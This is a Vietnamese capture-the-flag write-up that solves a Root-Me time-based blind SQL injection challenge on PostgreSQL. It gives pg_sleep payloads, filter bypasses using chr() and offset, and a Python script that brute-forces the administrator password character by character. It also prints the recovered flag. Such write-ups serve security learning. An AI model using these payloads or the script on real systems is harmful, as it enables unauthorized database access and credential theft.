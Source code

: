 # Trần Mạnh Huy - Task3

* [1. SQL injection - Time based](1-sql-injection---time-based)

Vừa vào ta có giao diện:

![image](https://user-images.githubusercontent.com/104350480/221471713-d5066bc2-5f56-4f6a-81e8-098d3d375121.png)

Thử ở phần login nhưng có vẻ kh khai thác được gì, ta sang phần memberlist:

![image](https://user-images.githubusercontent.com/104350480/221471797-8014ce54-8754-4363-bffc-3c3ffd0988fa.png)

Nhấn vào admin với url: **http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1** , vì là dạng time-based nên ta cần test sleep để xem có bị dính sql không. Sau một hồi thử thì ta sleep được vói dạng của nó là postgresql: 

> payload: http://challenge01.root-me.org/web-serveur/ch40/?action=member&member=1;+select+pg_sleep(10) --

Xác định được rồi giờ ta sẽ đi tìm tên bảng, tên cột và thông tin cần, cụ thể ở đây sẽ là tìm được administrator password với dạng payload chung:

> 	SELECT CASE WHEN (YOUR-CONDITION-HERE) THEN pg_sleep(10) ELSE pg_sleep(0) END

![image](https://user-images.githubusercontent.com/104350480/221472507-a9b47bc2-01e9-4b72-88ed-6e8226cd219e.png)

Đầu tiên là cần tìm bảng, trước hết thì sẽ làm tìm độ dài của bảng:

> /web-serveur/ch40/?action=member&member=1;+select+case+when+((select+LENGTH(table_name)+from+information_schema.tables+limit+1)+>1)+then+pg_sleep(10)+else+pg_sleep(0)+end+-- 

Đi thử thế này sẽ rất là mất thời gian vì ta đang để limit trả về 1 với offset mặc định là 0, mà chẳng hạn bảng hay cột ta cần tìm ở cột thứ 6 hay 7 chẳng hạn thì thử sẽ mất kha khá thời gian. Mà để hiểu bản chất thì đành vậy.

Với payload trên ta sẽ kiểm tra xem độ dài chính xác của table_name ở hàng 1 là bao nhiêu, test đến khi > 5 kh thấy sleep nữa thì ta được độ dài của bảng là 5.
Với length=5, giờ ta đi tìm tên bảng bằng cách dùng SUBSTRING để đi bruteforce từng kí tự 1, cái này thì dùng burpsuite cho nhanh.
Nhưng đến khi dùng substring để tìm kí tự thì ta lại gặp vấn đề là kh sleep nữa dù payload đã chính xác:

> 1;+select+case+when+(SUBSTRING((select+table_name+from+information_schema.tables+limit+1),1,1)+>+'a')+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Có vẻ '',"" đã bị filter trong bài này, vậy thì ta sẽ chuyển sang dạng chr hoặc hex thử xem:

> 1;+select+case+when+(SUBSTRING((select+table_name+from+information_schema.tables+limit+1),1,1)+>+chr(97))+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Oke vậy là đã sleep được, ta sẽ triển khai tiếp bằng cách bruteforce các kí tự char.

![image](https://user-images.githubusercontent.com/104350480/221474078-c546ad59-df4f-4497-ade5-76b248a4e266.png)

> Sau khi fuzz ta được tên bảng ứng với các kí tự char là: 117,115,101,114,115 chuyển về ta được tên bảng là users

![image](https://user-images.githubusercontent.com/104350480/221477066-6360b685-32f7-4c28-9519-4db0ebadfbaa.png)


Ta có được tên bảng, giờ đi tìm username với password thôi.
Tương tự như trên ta đi xác định column password. Bài này filter cả dấu ',' nên kh thể dùng limit 1,1 hay 2,1 được, ta sẽ thay thế bằng offset với chức năng tượng tự. Thử cái đầu tiên với offset = 1, kh phải cái ta được tên cột là username với payload như bên dưới: 

> payload1: 1;+select+case+when+(select+length(column_name)+from+information_schema.columns+limit+1+offset+1)+>+1)+then+pg_sleep(10)+else+pg_sleep(0)+end+--
> payload2: 1;+select+case+when+(substring(select+(column_name)+from+information_schema.columns+limit+1+offset+1),1,1)+=+chr(x))+then+pg_sleep(10)+else+pg_sleep(0)+end+--

Với length = 8 và bruteforce từng kí tự được: 

![image](https://user-images.githubusercontent.com/104350480/221482081-946047e6-2245-42c7-af12-6cc9fd46934e.png)

Tương tự ta cần tìm cột chứa thông tin password, cứ tiếp tục như trên đến khi offset = 5 ta được: 

![image](https://user-images.githubusercontent.com/104350480/221480820-c50769a7-8635-40ad-aa99-53ba1d364f45.png)

Vậy tìm được tên column ở hàng thứ 5 là password với tên bảng usesrs, mục tiêu là tìm password của username là administrator nên ta tiếp tục lấy giá trị của password ra: 

> payload: 1;+select+case+when+((select length(password) from users+limit+1)>1)+then+pg_sleep(20)+else+pg_sleep(0)+end+--

Thử như vậy ta được length của password hàng 1 có độ dài là 13

Nhưng bằng cách trên mình thấy bruteforce bằng burpsuite khá lâu, nên ta có thể tham khảo script sau sẽ nhanh hơn: 

```
import urllib, time
import http.client as httplib
import re

for y in range(1,14):	
	for x in range(33,127):
		headers = {'Accept':'text/html','cookie':'PHPSESSID=------------------'}

		conn = httplib.HTTPConnection("challenge01.root-me.org")
		conn.request("GET","/web-serveur/ch40/?action=member&member=1;select+case+when+substr((select+password+from+users+limit+1+offset+0),"+str(y)+",1)=chr("+str(x)+")+then+pg_sleep(5)+else+pg_sleep(0)+end--",'',headers)
		start=time.time()
		response = conn.getresponse()
		end=time.time()
	
		if end-start > 2 :
			print("count: ", y)
			print ("x : ", x)
			break
conn.close()

```

Ta chuyển đổi về dạng char về text thì được : T!m3B@s3DSQL!

![image](https://user-images.githubusercontent.com/104350480/221489365-0311d5b6-3ff9-4e4c-868a-cd2da2142d93.png)

